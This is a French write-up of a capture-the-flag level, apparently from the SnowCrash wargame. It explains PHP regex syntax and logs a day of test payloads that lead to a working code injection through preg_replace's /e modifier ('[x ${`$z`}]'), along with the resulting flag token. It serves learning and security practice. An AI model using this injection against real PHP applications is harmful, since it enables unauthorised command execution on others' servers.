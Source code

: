 # Level 06

## Recherche
---
### Explication de "rewrite"

- [x (.*)] + "y("\2")"  

- '.' match pour tous les char > .erre == verre / terre / serre  

- '\*' donne une valeur de 0 à linfini pour le caractère précédent > toto* == toto / totoo / totooo etc  

- '.*@gmail.com' > tefroiss@gmail.com, 42@gmail.com

- le flag e éxécute ce qu'il trouve dans la regex, pour ça que ça a été enlevé de php  

- la regex va remplacer par la fonction y ce qui se trouve dans la deuxième paranthèse de la regex
---

### Cheminement

Début de la recherche, il y a un fichier php lisible et son éxécutable.  
Je réécris la fonction en mode "norme" pour pouvoir lire correctement.  
Sachant qu'il y a beaucoup de preg_replace, je me dis que ce n'est pas l'élément important, ça doit être le file_get_contents.   
La fonction prend en argument y, je test donc de lancer avec y = /bin/getflag
A prévoir, on me dit que je n'ai pas les droits.   
On me dit que justement il n'y avait pas de pièges, c'est bien le preg_replace qui importe, et surtout la regex.   
Je déchiffre la regex pour plus de lisibilité (voir au dessus)
Je fais les premiers tests (voir en dessous).  
Beaucoup d'heures de recherches pour comprendre ce que je peux faire pour 'hacker' le flag.   
Le truc chiant c'est que la partie replace qui prend la deuxième parenthèse de la regex, le fout obligatoirement en string, donc tout ressort tel quel sans avoir accés.   
Il faut donc trouver la douille pour passer outre ce système.   
La réponse c'est ça : '[x ${`$z`}]'  
C'est tricky et moche mais ça marche. Le x pour la première partie inutile pour nous, $ pour la variable, qu'on imbrique dans {} et dans `` pour retirer '/bin/getflag' et non pas "/bin/getflag". Dans notre cas, le flag e va vouloir éxécuter getflag mais en tant que variable, et ne va pas y arriver.  
C'est donc grâce à l'erreur qu'on peut récuperer le flag.
On met la regex dans un fichier dans tmp, on utilise le php pour lire ce fichier qui va lui utiliser le z qui sera le getflag.

---
## Flag : wiok45aaoguiboiki2tuin6ub
---

### Résumé des tests du dernier jour

~$ echo "[x ]" > /tmp/ex06 && ./level06 /tmp/ex06


~$ echo "[x .print]" > /tmp/ex06 && ./level06 /tmp/ex06
 x print

~$ echo "[x \.print]" > /tmp/ex06 && ./level06 /tmp/ex06
\ x print

~$ echo "[x .exec90]" > /tmp/ex06 && ./level06 /tmp/ex06
 x exec90

~$ echo "[x .*]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 x *

~$ echo "[x @]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 y

~$ echo "[x @**]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
 y**

~$ echo '[x ]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag


~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo "[x $z]" > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag


~$ echo '[x $z]'
[x $z]

~$ echo "[x $z]"
[x ]

~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo '[x         $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
        /bin/getflag

~$ echo '[x        echo $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
       echo /bin/getflag

---

~$ echo '[x file_get_contents($z)]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
file_get_contents(/bin/getflag)

~$ echo '[x shell_exec(string $z)]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
shell_exec(string /bin/getflag)

~$ echo '[x `cat $z`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
`cat /bin/getflag`

~$ echo '[x \`cat $z\`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\`cat /bin/getflag\`

~$ echo '[x \"`cat $z`\"]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\"`cat /bin/getflag`\"

~$ echo '[x \n`cat $z`\n]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
\n`cat /bin/getflag`\n

~$ echo '[x `$z`]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
`/bin/getflag`

~$ echo '[x $z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflag

~$ echo $USER
level06

~$ echo ${USER}
level06

~$ echo '[x {${z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Use of undefined constant z - assumed 'z' in /home/user/level06/level06.php(4) : regexp code on line 1
/bin/getflag

~$ echo '[x {$}z]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected '}', expecting T_VARIABLE or '$' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{$}z") in /home/user/level06/level06.php on line 4

~$ echo '[x {${$z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Undefined variable: /bin/getflag in /home/user/level06/level06.php(4) : regexp code on line 1

~$ echo '[x {${cat $z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected T_VARIABLE in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{${cat $z}}") in /home/user/level06/level06.php on line 4

~$ echo '[x {${print $z}}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
/bin/getflagPHP Notice:  Undefined variable: 1 in /home/user/level06/level06.php(4) : regexp code on line 1

~$ echo '[x {$`{$z}`}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Parse error:  syntax error, unexpected '`', expecting T_VARIABLE or '$' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
y("{$`{$z}`}") in /home/user/level06/level06.php on line 4

~$ echo '[x ${`$z`}]' > /tmp/ex06 && ./level06 /tmp/ex06 /bin/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

---
# Sitographie

https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/PHP-PHP.html 

https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.double

https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing

https://www.rafaybaloch.com/2017/06/indepth-code-execution-in-php-part-two.html

https://www.agiratech.com/php-escape-quotes-how-to-do-it-right#Double_Quoted

https://www.php.net/manual/en/function.shell-exec.php

https://www.php.net/manual/en/language.operators.execution.php

https://www.w3schools.com/php/php_regex.asp


